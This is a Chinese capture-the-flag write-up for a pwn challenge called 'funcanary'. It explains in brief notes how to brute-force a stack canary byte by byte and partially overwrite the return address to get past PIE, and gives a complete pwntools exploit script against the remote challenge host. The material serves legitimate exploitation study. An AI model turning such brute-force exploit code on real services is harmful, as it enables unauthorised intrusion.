 随后因为分页机制，也就是一页 0x1000，而最后三位是固定的就是 0x231，所以要把所有页都爆破了

但是system_addr基地址为什么不用加？？因为返回的地方是 main 函数的地址，所以只用覆盖偏移地址

```python
from tqdm import tqdm

#p = process("funcanary")
p = remote("node1.anna.nssctf.cn", 28574)
#context.log_level= "debug"
canary = b""

for i in range(8):
	for j in tqdm(range(0xFF)):
		payload = b"Z" * 0x68 + canary + p8(j) 
		p.recvuntil("welcome\n")
		p.send(payload)
		a = p.recv(8)
		if b"fun" in a:
			canary += p8(j)
			print(canary)
			break
		
for i in range(0xF):
	system_Addr = i * 0x1000 + 0x231
	pay = b"Z" * 0x68 + canary + p64(0) + p16(system_Addr)
	p.send(pay)
	a = p.recvuntil("welcome\n", timeout=1)
	print(a)

p.interactive()
```





### PIE

开启了 PIE 保护后，基地址是在变化的
